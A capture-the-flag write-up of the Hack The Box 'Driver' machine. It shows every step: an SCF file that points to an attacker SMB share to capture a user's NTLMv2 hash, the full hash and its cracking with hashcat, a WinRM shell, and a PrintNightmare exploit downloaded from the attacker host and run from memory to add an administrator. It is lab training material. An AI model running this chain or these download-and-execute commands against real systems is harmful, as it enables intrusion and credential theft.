


---
search:
  exclude: true
---
# Driver Writeup

## Introduction :

Driver is an easy Linux box released back in October 2021.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.0.0.10/16 ] [ nowhere ] [~/HTB]
    → nmap -sCV driver.htb
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-21 18:39 UTC
    Nmap scan report for driver.htb (10.129.95.238)
    Host is up (0.054s latency).
    Not shown: 997 filtered tcp ports (no-response)
    PORT    STATE SERVICE      VERSION
    80/tcp  open  http         Microsoft IIS httpd 10.0
    | http-auth:
    | HTTP/1.1 401 Unauthorized\x0D
    |_  Basic realm=MFP Firmware Update Center. Please enter password for admin
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: Site doesn't have a title (text/html; charset=UTF-8).
    | http-methods:
    |_  Potentially risky methods: TRACE
    135/tcp open  msrpc        Microsoft Windows RPC
    445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
    Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    |_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
    | smb-security-mode:
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
    | smb2-security-mode:
    |   3.1.1:
    |_    Message signing enabled but not required
    | smb2-time:
    |   date: 2022-11-22T01:39:18
    |_  start_date: 2022-11-22T01:38:10
    |_ms-sql-info: ERROR: Script execution failed (use -d to debug)
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 53.89 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80, so let's investigate it: 

We try randomly admin:admin as the credentials and we login:

Now in order to exploit this MFP Firmware Update Center we need to make a scf file as seen [here](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/):
    
    
    [ 10.0.0.10/16 ] [ nowhere ] [~/HTB/Driver]
    → vim file.scf
    
    [ 10.0.0.10/16 ] [ nowhere ] [~/HTB/Driver]
    → cat file.scf
    [Shell]
    Command = 2
    IconFile = "\\10.10.16.14\nihilism\nothing.txt"
    
    [Taskbar]
    Command = "ToggleDesktop"
    
    

Then start a responder session as we upload the poisoned file:

    
    
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Driver]
    → sudo responder -I tun0
                                             __
      .----.-----.-----.-----.-----.-----.--|  |.-----.----.
      |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
      |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                       |__|
    
               NBT-NS, LLMNR & MDNS Responder 3.1.3.0
    
      To support this project:
      Patreon -> https://www.patreon.com/PythonResponder
      Paypal  -> https://paypal.me/PythonResponder
    
      Author: Laurent Gaffie (laurent.gaffie@gmail.com)
      To kill this script hit CTRL-C
    
    
    [+] Poisoners:
        LLMNR                      [ON]
        NBT-NS                     [ON]
        MDNS                       [ON]
        DNS                        [ON]
        DHCP                       [OFF]
    
    [+] Servers:
        HTTP server                [ON]
        HTTPS server               [ON]
        WPAD proxy                 [OFF]
        Auth proxy                 [OFF]
        SMB server                 [ON]
        Kerberos server            [ON]
        SQL server                 [ON]
        FTP server                 [ON]
        IMAP server                [ON]
        POP3 server                [ON]
        SMTP server                [ON]
        DNS server                 [ON]
        LDAP server                [ON]
        RDP server                 [ON]
        DCE-RPC server             [ON]
        WinRM server               [ON]
    
    [+] HTTP Options:
        Always serving EXE         [OFF]
        Serving EXE                [OFF]
        Serving HTML               [OFF]
        Upstream Proxy             [OFF]
    
    [+] Poisoning Options:
        Analyze Mode               [OFF]
        Force WPAD auth            [OFF]
        Force Basic Auth           [OFF]
        Force LM downgrade         [OFF]
        Force ESS downgrade        [OFF]
    
    [+] Generic Options:
        Responder NIC              [tun0]
        Responder IP               [10.10.16.14]
        Responder IPv6             [dead:beef:4::100c]
        Challenge set              [random]
        Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    
    [+] Current Session Variables:
        Responder Machine Name     [WIN-KPBKT26EKRE]
        Responder Domain Name      [3PO9.LOCAL]
        Responder DCE-RPC Port     [49204]
    
    [+] Listening for events...
    
    
    **[SMB] NTLMv2-SSP Client   : 10.129.95.238
    [SMB] NTLMv2-SSP Username : DRIVER\tony
    [SMB] NTLMv2-SSP Hash     : tony::DRIVER:64ee36aaad12f422:90CD51833EC5C7FD768608DC128B0072:0101000000000000007514F0DAFDD80130D95B9D9FCE853D0000000002000800330050004F00390001001E00570049004E002D004B00500042004B0054003200360045004B005200450004003400570049004E002D004B00500042004B0054003200360045004B00520045002E00330050004F0039002E004C004F00430041004C0003001400330050004F0039002E004C004F00430041004C0005001400330050004F0039002E004C004F00430041004C0007000800007514F0DAFDD8010600040002000000080030003000000000000000000000000020000082E65A8610E38B2DCBA3BF1A4B03692BFC2D79B0F9EC686F467516427284BDD40A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E0031003400000000000000000000000000
    [*] Skipping previously captured hash for DRIVER\tony
    [*] Skipping previously captured hash for DRIVER\tony
    [*] Skipping previously captured hash for DRIVER\tony
    [*] Skipping previously captured hash for DRIVER\tony
    [*] Skipping previously captured hash for DRIVER\tony
    [*] Skipping previously captured hash for DRIVER\tony
    [*] Skipping previously captured hash for DRIVER\tony**
    

And we got a response on our file gets uploaded! So we recieved a NTLMv2 Hash, coming from the username tony. So let's crack the NTLMv2 Hash using rockyou.txt:
    
    
    [ 10.10.16.14/23 ] [ nowhere ] [~/HTB/Driver]
    → sudo hashcat hash -m5600 $(locate rockyou.txt)
    [sudo] password for nothing:
    hashcat (v6.2.6) starting
    
    * Device #1: WARNING! Kernel exec timeout is not disabled.
                 This may cause "CL_OUT_OF_RESOURCES" or related errors.
                 To disable the timeout, see: https://hashcat.net/q/timeoutpatch
    * Device #2: WARNING! Kernel exec timeout is not disabled.
                 This may cause "CL_OUT_OF_RESOURCES" or related errors.
                 To disable the timeout, see: https://hashcat.net/q/timeoutpatch
    CUDA API (CUDA 11.8)
    ====================
    * Device #1: NVIDIA GeForce RTX 3070 Ti, 5906/7981 MB, 48MCU
    
    OpenCL API (OpenCL 3.0 CUDA 11.8.87) - Platform #1 [NVIDIA Corporation]
    =======================================================================
    * Device #2: NVIDIA GeForce RTX 3070 Ti, skipped
    
    Minimum password length supported by kernel: 0
    Maximum password length supported by kernel: 256
    
    Hashes: 1 digests; 1 unique digests, 1 unique salts
    Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
    Rules: 1
    
    Optimizers applied:
    * Zero-Byte
    * Not-Iterated
    * Single-Hash
    * Single-Salt
    
    ATTENTION! Pure (unoptimized) backend kernels selected.
    Pure kernels can crack longer passwords, but drastically reduce performance.
    If you want to switch to optimized kernels, append -O to your commandline.
    See the above message to find out about the exact limits.
    
    Watchdog: Temperature abort trigger set to 90c
    
    Host memory required for this attack: 843 MB
    
    Dictionary cache built:
    * Filename..: /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz
    * Passwords.: 14344392
    * Bytes.....: 139923457
    * Keyspace..: 14344383
    * Runtime...: 1 sec
    
    TONY::DRIVER:64ee36aaad12f422:90cd51833ec5c7fd768608dc128b0072:0101000000000000007514f0dafdd80130d95b9d9fce853d0000000002000800330050004f00390001001e00570049004e002d004b00500042004b0054003200360045004b005200450004003400570049004e002d004b00500042004b0054003200360045004b00520045002e00330050004f0039002e004c004f00430041004c0003001400330050004f0039002e004c004f00430041004c0005001400330050004f0039002e004c004f00430041004c0007000800007514f0dafdd8010600040002000000080030003000000000000000000000000020000082e65a8610e38b2dcba3bf1a4b03692bfc2d79b0f9ec686f467516427284bdd40a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e0031003400000000000000000000000000:liltony
    
    Session..........: hashcat
    Status...........: Cracked
    Hash.Mode........: 5600 (NetNTLMv2)
    Hash.Target......: TONY::DRIVER:64ee36aaad12f422:90cd51833ec5c7fd76860...000000
    Time.Started.....: Mon Nov 21 19:57:17 2022 (1 sec)
    Time.Estimated...: Mon Nov 21 19:57:18 2022 (0 secs)
    Kernel.Feature...: Pure Kernel
    Guess.Base.......: File (/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........: 69153.6 kH/s (3.71ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
    Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
    Progress.........: 3145728/14344383 (21.93%)
    Rejected.........: 0/3145728 (0.00%)
    Restore.Point....: 0/14344383 (0.00%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
    Candidate.Engine.: Device Generator
    Candidates.#1....: 12345 -> tomabogdan
    Hardware.Mon.#1..: Temp: 53c Fan: 57% Util: 30% Core:1830MHz Mem:9501MHz Bus:16
    
    Started: Mon Nov 21 19:57:11 2022
    Stopped: Mon Nov 21 19:57:18 2022
    
    

So now we have the credentials **tony:liltony** , let's connect with an evil-winrm shell :
    
    
    [ 10.10.14.37/23 ] [ /dev/pts/15 ] [Nextcloud/blog]
    → evil-winrm -i driver.htb -u tony -p liltony
    
    Evil-WinRM shell v3.4
    
    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
    
    Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\tony\Documents> whoami
    driver\tony
    *Evil-WinRM* PS C:\Users\tony\Documents> cd ..
    cd De*Evil-WinRM* PS C:\Users\tony> cd Desktop
    *Evil-WinRM* PS C:\Users\tony\Desktop> type user.txt
    97XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And we got the User flag!

## **Part 3 : Getting Root Access**

Now in order to enumerate privesc paths, we run winpeas: 
    
    
    [ 10.10.14.37/23 ] [ /dev/pts/15 ] [Nextcloud/blog]
    → evil-winrm -i driver.htb -u tony -p liltony
    
    Evil-WinRM shell v3.4
    
    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
    
    Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\tony\Documents> upload /home/nothing/HTB/Driver/winPEAS.bat
    Info: Uploading /home/nothing/HTB/Driver/winPEAS.bat to C:\Users\tony\Documents\winPEAS.bat
    
    
    Data: 47928 bytes of 47928 bytes copied
    
    Info: Upload successful!
    
    *Evil-WinRM* PS C:\Users\tony\Documents> .\winPEAS.bat
    
    

` 

Let it run, then we get a hint towards the ConsoleHost_history text file:

    
    
    *Evil-WinRM* PS C:\Users\tony\Documents> cat C:\users\tony\appdata\roaming\microsoft\windows\PowerShell\PSReadline\ConsoleHost_history.txt
    Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'
    
    ping 1.1.1.1
    ping 1.1.1.1
    
    

Here we see history file contains a comamnd to add a printer with the RICOH_PCL6 printer driver. So when we look for exploits we find the [CVE-2021-34527](https://github.com/JohnHammond/CVE-2021-34527) local privesc vulnerability:
    
    
    [term1]
    *Evil-WinRM* PS C:\programdata\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz> icacls *.dll
    borderline.dll Everyone:(F)
    
    colorbalance.dll Everyone:(F)
    
    headerfooter.dll Everyone:(F)
    
    jobhook.dll Everyone:(F)
    
    outputimage.dll Everyone:(F)
    
    overlaywatermark.dll Everyone:(F)
    
    popup.dll Everyone:(F)
    
    printercopyguardpreview.dll Everyone:(F)
    
    printerpreventioncopypatternpreview.dll Everyone:(F)
    
    secretnumberingpreview.dll Everyone:(F)
    
    watermark.dll Everyone:(F)
    
    watermarkpreview.dll Everyone:(F)
    
    Successfully processed 12 files; Failed processing 0 files
    
    [term2]
    [ 10.10.14.17/23 ] [ /dev/pts/16 ] [~/HTB/Driver]
    → git clone https://github.com/JohnHammond/CVE-2021-34527
    Cloning into 'CVE-2021-34527'...
    remote: Enumerating objects: 17, done.
    remote: Counting objects: 100% (17/17), done.
    remote: Compressing objects: 100% (15/15), done.
    remote: Total 17 (delta 2), reused 17 (delta 2), pack-reused 0
    Receiving objects: 100% (17/17), 124.90 KiB | 617.00 KiB/s, done.
    Resolving deltas: 100% (2/2), done.
    
    [ 10.10.14.17/23 ] [ /dev/pts/16 ] [~/HTB/Driver]
    → cd CVE-2021-34527
    
    [ 10.10.14.17/23 ] [ /dev/pts/16 ] [HTB/Driver/CVE-2021-34527]
    → ls
    CVE-2021-34527.ps1  nightmare-dll  README.md
    
    [ 10.10.14.17/23 ] [ /dev/pts/16 ] [HTB/Driver/CVE-2021-34527]
    → cp CVE-2021-34527.ps1 exploit.ps1
    
    [ 10.10.14.17/23 ] [ /dev/pts/16 ] [HTB/Driver/CVE-2021-34527]
    → python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
    
    

Then download the ps1 exploit onto the box and run it:
    
    
    *Evil-WinRM* PS C:\Users\tony\Documents> Invoke-webrequest -uri http://10.10.14.17:8080/exploit.ps1 -Outfile exploit.ps1
    *Evil-WinRM* PS C:\Users\tony\Documents> .\exploit.ps1
    File C:\Users\tony\Documents\exploit.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
    At line:1 char:1
    + .\exploit.ps1
    + ~~~~~~~~~~~~~
        + CategoryInfo          : SecurityError: (:) [], PSSecurityException
        + FullyQualifiedErrorId : UnauthorizedAccess
    
    

However it doesn't let us run scripts on the machine, so instead we're going to run it from memory:
    
    
    *Evil-WinRM* PS C:\Users\tony\Documents> iex(new-object net.webclient).downloadstring('http://10.10.14.17:8080/exploit.ps1')
    *Evil-WinRM* PS C:\Users\tony\Documents> Invoke-Nightmare -NewUser "nihilist" -NewPassword "nihilist123"
    [+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
    [+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
    [+] added user nihilist as local administrator
    [+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
    
    

And then login as the new user we created:
    
    
    [ 10.10.14.17/23 ] [ /dev/pts/17 ] [HTB/Driver/CVE-2021-34527]
    → evil-winrm -i driver.htb -u nihilist -p nihilist123
    
    Evil-WinRM shell v3.4
    
    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
    
    Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\nihilist\Documents> cd ..\..\Administrator\Desktop
    *Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
    f3XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! we managed to get the root flag!

## **Conclusion**

Here we can see the progress graph :

